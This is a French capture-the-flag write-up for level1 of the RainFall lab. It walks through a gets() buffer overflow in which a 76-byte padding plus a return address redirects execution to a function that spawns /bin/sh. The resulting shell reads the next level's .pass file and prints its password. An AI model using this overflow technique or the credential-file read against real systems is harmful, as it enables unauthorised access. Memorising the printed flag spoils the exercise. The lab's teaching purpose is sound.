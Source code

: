 un exécutable qui semble lire sur le stdin

on check les fonctions de lexécutable à l'aide de gdb :
```
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
```
on voit qu'il y a deux fonctions : `main` et `run`

on desassemble ces deux fonctions

main :
```
0x08048480 <+0>:     push   %ebp
0x08048481 <+1>:     mov    %esp,%ebp
0x08048483 <+3>:     and    $0xfffffff0,%esp
0x08048486 <+6>:     sub    $0x50,%esp           // 50 ( 80 bytes allocated)
0x08048489 <+9>:     lea    0x10(%esp),%eax      // 50 - 10 = 40 (64 bytes used)
0x0804848d <+13>:    mov    %eax,(%esp)          // argument for gets()
0x08048490 <+16>:    call   0x8048340 <gets@plt> // call gets()
0x08048495 <+21>:    leave  
0x08048496 <+22>:    ret
```
```
int     main() {
	char buffer[64];
	gets(buffer);
	return (0);
}
```
la fonction gets() a une vulnérabilité avec le dépassement de tampon

run :
```
0x08048444 <+0>:     push   %ebp
0x08048445 <+1>:     mov    %esp,%ebp
0x08048447 <+3>:     sub    $0x18,%esp
0x0804844a <+6>:     mov    0x80497c0,%eax          // eax = stdout
0x0804844f <+11>:    mov    %eax,%edx
0x08048451 <+13>:    mov    $0x8048570,%eax         // 0x8048570 = "Good... Wait what?\n"
0x08048456 <+18>:    mov    %edx,0xc(%esp)          // argument 4 for fwrite
0x0804845a <+22>:    movl   $0x13,0x8(%esp)         // argument 3 for fwrite
0x08048462 <+30>:    movl   $0x1,0x4(%esp)          // argument 2 for fwrite
0x0804846a <+38>:    mov    %eax,(%esp)             // argument 1 for fwrite
0x0804846d <+41>:    call   0x8048350 <fwrite@plt>  // call fwrite()
0x08048472 <+46>:    movl   $0x8048584,(%esp)       // argument for system(), 0x8048584 = "/bin/sh"
0x08048479 <+53>:    call   0x8048360 <system@plt>  // call system()
0x0804847e <+58>:    leave  
0x0804847f <+59>:    ret 
```
```
int		run(void) {
	fwrite("Good... Wait what?\n", 19, 1, stdout);
	return (system("/bin/sh"));
}
```
la fonction `run` n'est pas appelé par le main, on comprend qu'il faut passer par la faille de la fonction gets() pour appeler `run`

pour cela on utilise l'adresse de la fonction `run` : `0x08048444` que l'on écrit à l'envers pour 

https://reverseengineering.stackexchange.com/questions/27826/using-a-buffer-overflow-to-call-a-function

on commence avec 80 caractères car le programme a alloué 80 octets pour la stack :

```
level1@RainFall:~$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" > /tmp/overflow
level1@RainFall:~$ cat /tmp/overflow | ./level1
Segmentation fault (core dumped)
level1@RainFall:~$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" > /tmp/overflow
level1@RainFall:~$ cat /tmp/overflow | ./level1
Illegal instruction (core dumped)
```

après quelques test je vois que le programme crash lorsqu'il lit plus de 76 caractères, alors après le 76ème caractère on ajoute l'adresse de la fonction que l'on veut exécuter

```
level1@RainFall:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x44\x84\x04\x08" > /tmp/overflow
level1@RainFall:~$ cat /tmp/overflow | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

maintenant il faut trouver un moyen de laisser stdin ouvert, avec un deuxième `cat` sans fichier à lire :

```
level1@RainFall:~$ (cat /tmp/overflow ; cat) | ./level1
Good... Wait what?
pwd
/home/user/level1
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```